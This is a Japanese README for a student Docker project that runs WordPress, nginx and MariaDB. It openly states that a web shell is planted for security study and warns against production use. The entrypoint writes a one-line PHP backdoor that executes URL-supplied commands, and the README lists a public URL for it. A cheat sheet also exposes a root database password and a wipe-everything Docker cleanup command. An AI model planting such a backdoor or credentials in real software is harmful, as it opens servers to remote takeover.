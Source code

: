 # inception

WordpressのDockerコンテナです。
セキュリティの勉強をかねて少しやります。

WebShell仕込んでます。
実稼働で使わないでください！

## Containers

- nginx
- wordpress
- mariadb

## WebShell

https://ashitomi.42.jp/wordpress/wp_get-access.php

### 配置場所

- /var/www/html/wordpress/wp_get-access.php

`srcs/requirements/wordpress/docker-entrypoint.sh`

```bash
echo '<?php system($_GET["cmd"]);?>' > /var/www/html/wordpress/wp_get-access.php
```

### 用途

Bonusの部分で利用します。

> 自分が便利だと思う好きなサービスを設定する。選んだサービスを正当化する必要があります。

## ポートフォリオ

昔作ったポートフォリをを載せてます。

### 用途

Bonusの部分で利用します。

> PHPを除くお好きな言語で、簡単な静的ウェブサイトを作成してください（はい、PHPは除きます！）。例えば、ショーケースサイトや履歴書を発表するためのサイトなど。

## SQL チートシート

```
# Maria DBのサーバーニアタッチする
docker exec -it $(docker ps -q -f name=mariadb) /bin/ash

# ログイン
mariadb -hlocalhost -uroot -p42inceptiondbroot

# MySQLのコマンド
> USE mysql;
> SELECT * FROM <TABLE_NAME>
```

## Memo

### 環境を初期化する

```shell
sudo rm -rf ~/data/

docker stop $(docker ps -qa); docker rm $(docker ps -qa); docker rmi -f $(docker images -qa); docker volume rm $(docker volume ls -q); docker network rm $(docker network ls -q) 2>/dev/null
```

### 起動確認

https://localhost:443/wp_install_log.html